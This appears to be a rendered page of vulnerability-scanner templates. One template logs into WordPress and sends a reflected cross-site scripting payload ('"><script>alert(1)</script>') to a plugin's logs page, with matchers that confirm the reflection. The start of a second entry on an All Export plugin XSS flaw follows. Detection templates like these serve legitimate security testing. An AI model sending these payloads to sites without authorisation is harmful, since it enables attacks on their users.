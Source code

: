 ### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/admin.php?page=jj4t3-logs&a"><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. ">\<script>alert(1)\</script>
  2. 404 Error Logs
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress All Export \<1.3.6 - Cross-Site Scripting

## Description

- WordPress All Export plugin before version 1.3.6 does not escape some URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - wp-plugin,xss,wp,wordpress,authenticated,wpscan

## Requests
